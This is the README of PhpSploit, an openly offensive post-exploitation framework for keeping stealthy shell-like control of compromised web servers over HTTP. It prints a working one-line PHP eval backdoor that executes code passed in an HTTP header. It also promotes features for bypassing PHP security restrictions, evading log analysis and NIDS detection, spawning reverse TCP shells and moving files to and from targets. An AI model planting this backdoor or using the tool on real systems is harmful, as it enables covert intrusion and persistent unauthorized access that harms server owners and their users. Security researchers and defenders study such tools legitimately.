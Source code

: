 ### PhpSploit: _Furtive post-exploitation framework_
[![All Contributors](https://img.shields.io/badge/all_contributors-2-orange.svg?style=flat-square)](#contributors)

PhpSploit is a **remote control** framework, aiming to provide a **stealth**
interactive shell-like connection over HTTP between client and web server.
It is a post-exploitation tool capable to maintain access to a
compromised web server for **privilege escalation** purposes.

[![travis build](https://travis-ci.org/nil0x42/phpsploit.svg?branch=master)](https://travis-ci.org/nil0x42/phpsploit)
[![codacy code quality](https://api.codacy.com/project/badge/Grade/b998fe23c25f40a78c6c35c722bb9fa0)](https://app.codacy.com/app/nil0x42/phpsploit?utm_source=github.com&utm_medium=referral&utm_content=nil0x42/phpsploit&utm_campaign=Badge_Grade_Dashboard)
[![lgtm alerts](https://img.shields.io/lgtm/alerts/g/nil0x42/phpsploit.svg?logo=lgtm&logoWidth=18)](https://lgtm.com/projects/g/nil0x42/phpsploit/alerts/)
[![codecov](https://codecov.io/gh/nil0x42/phpsploit/branch/master/graph/badge.svg)](https://codecov.io/gh/nil0x42/phpsploit)
[![license](https://img.shields.io/github/license/nil0x42/phpsploit.svg)](https://github.com/nil0x42/phpsploit/blob/master/LICENSE)

![phpsploit demo](data/img/phpsploit-demo.png)

* * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * *

#### Overview

The obfuscated communication is accomplished using HTTP headers under
standard client requests and web server's relative responses, tunneled
through a tiny **polymorphic backdoor**:

```php
<?php @eval($_SERVER['HTTP_PHPSPL01T']); ?>
```

* * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * *

#### Features

-   **Efficient**: More than 20 plugins to automate post-exploitation tasks
    -   Run commands and browse filesystem, bypassing PHP security restrictions
    -   Upload/Download files between client and target
    -   Edit remote files through local text editor
    -   Run SQL console on target system
    -   Spawn reverse TCP shells

-   **Stealth**: The framework is made by paranoids, for paranoids
    -   Nearly invisible by log analysis and NIDS signature detection
    -   Safe-mode and common _PHP security restrictions bypass_
    -   Communications are hidden in HTTP Headers
    -   Loaded payloads are obfuscated to _bypass NIDS_
    -   http/https/socks4/socks5 **Proxy support**

-   **Convenient**: A robust interface with many crucial features
    -   Detailed help for any command or option (type `help`)
    -   _Cross-platform_ on both the client and the server.
    -   Powerful interface with completion and multi-command support
    -   Session saving/loading feature & persistent history
    -   Multi-request support for large payloads (such as uploads)
    -   Provides a powerful, highly configurable settings engine
    -   Each setting, such as user-agent has a _polymorphic mode_
    -   Customisable environment variables for plugin interaction
    -   Provides a complete plugin development API

* * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * *

#### Supported platforms (as attacker):

-   GNU/Linux
-   Mac OS X

#### Supported platforms (as target):

-   GNU/Linux
-   BSD Like
-   Mac OS X
-   Windows NT

## Contributors

Thanks goes to these wonderful people ([emoji key](https://github.com/all-contributors/all-contributors#emoji-key)):

<!-- ALL-CONTRIBUTORS-LIST:START - Do not remove or modify this section -->
<!-- prettier-ignore -->
| [<img src="https://avatars1.githubusercontent.com/u/3504393?v=4" width="100px;" alt="nil0x42"/><br /><sub><b>nil0x42</b></sub>](https://exdemia.com)<br />[💻](https://github.com/nil0x42/phpsploit/commits?author=nil0x42 "Code") [🚇](#infra-nil0x42 "Infrastructure (Hosting, Build-Tools, etc)") [🔌](#plugin-nil0x42 "Plugin/utility libraries") [⚠️](https://github.com/nil0x42/phpsploit/commits?author=nil0x42 "Tests") | [<img src="https://avatars1.githubusercontent.com/u/20907184?v=4" width="100px;" alt="shiney-wh"/><br /><sub><b>shiney-wh</b></sub>](https://github.com/shiney-wh)<br />[💻](https://github.com/nil0x42/phpsploit/commits?author=shiney-wh "Code") [🔌](#plugin-shiney-wh "Plugin/utility libraries") |
| :---: | :---: |
<!-- ALL-CONTRIBUTORS-LIST:END -->

This project follows the [all-contributors](https://github.com/all-contributors/all-contributors) specification. Contributions of any kind welcome!
